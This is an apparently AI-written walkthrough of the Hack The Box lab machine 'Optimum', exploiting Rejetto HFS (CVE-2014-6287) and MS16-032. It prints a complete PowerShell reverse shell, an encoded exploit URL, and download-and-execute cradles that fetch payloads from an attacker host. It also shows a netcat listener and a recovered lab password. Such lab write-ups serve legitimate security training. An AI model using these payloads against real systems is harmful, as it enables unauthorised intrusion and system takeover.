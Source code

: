 Here’s a clean walkthrough for **HTB: Optimum**, following your preferred structure with command sequences and annotations. ✅

---

# 🚀 HTB: Optimum Walkthrough

**Machine Info:**
- **IP**: `10.10.10.8`
- **OS**: Windows Server 2012 R2 (64-bit)
- **Difficulty**: Easy
- **Exploits Used**:
  - **RCE**: [CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287) – Rejetto HFS 2.3.x
  - **PrivEsc**: [CVE-2016-0099](https://nvd.nist.gov/vuln/detail/CVE-2016-0099) – MS16-032

---

## 🧭 Recon

### 🔍 Full TCP Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.8
```

### 🎯 Service Detection
```bash
nmap -p 80 -sCV -oA scans/nmap-tcpscripts 10.10.10.8
```

**Result:**
- Port `80` open
- Service: `HttpFileServer 2.3`

---

## 🌐 Web Recon – HFS

### 🕵️ Vulnerability Check
```bash
searchsploit httpfileserver
```

**Finding:**  
`Rejetto HttpFileServer 2.3.x - Remote Command Execution` → [CVE-2014-6287](https://www.exploit-db.com/exploits/49125)

---

## 🧨 Initial Access – kostas

### 🔧 Exploit Trigger (PowerShell Reverse Shell)
**Prep Nishang One-liner:**
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Start server:
```bash
python3 -m http.server 80
```

Trigger via encoded URL:
```http
http://10.10.10.8/?search=%00{.exec|C%3a\Windows\System32\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.10/rev.ps1').}
```

### 🛰️ Netcat Listener
```bash
rlwrap nc -lnvp 443
```

**Shell Received:**
```powershell
whoami
optimum\kostas
```

### 🏁 User Flag
```powershell
type C:\Users\kostas\Desktop\user.txt.txt
```

---

## 🧱 Privilege Escalation – SYSTEM

### 🧬 Confirm Architecture
```powershell
[Environment]::Is64BitProcess
True
```

### 🪪 Credential Reuse
```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```
> Found: `kostas : kdeEjDowkS*` (but already logged in as kostas)

---

### 🔍 Kernel Exploit Enumeration – Sherlock
**Upload & execute:**
```powershell
IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.10/Sherlock.ps1')
Find-AllVulns
```

**Findings:**
- MS16-032 → CVE-2016-0099 – ✅ Vulnerable
- MS16-034 / MS16-135 → also show as potentially vulnerable

---

### 🧬 Exploit MS16-032

**Exploit Script Used:**
`Invoke-MS16032.ps1` (modified from [FuzzySecurity](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1))

Append to script:
```powershell
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.10/rev.ps1')"
```

**Run from PowerShell:**
```powershell
IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.10/Invoke-MS16032.ps1')
```

### ⚡ SYSTEM Shell
```powershell
whoami
nt authority\system
```

### 🏁 Root Flag
```powershell
type C:\Users\Administrator\Desktop\root.txt
```

---

## 🧠 Lessons Learned

### 🪞 Initial Access
- HFS 2.3.x is vulnerable to RCE via `/?search=%00{.exec|...}`
- Using PowerShell cradles with `downloadString` is an effective and fast method to gain shells on legacy boxes.

### 🔓 PrivEsc Takeaways
- Kernel exploits like **MS16-032** remain valid for unpatched boxes.
- Use **Sherlock** or **Watson** (older machines might not support Watson’s .NET dependencies).
- Watch out for **process architecture** (32-bit shells won’t work for 64-bit kernel exploits).
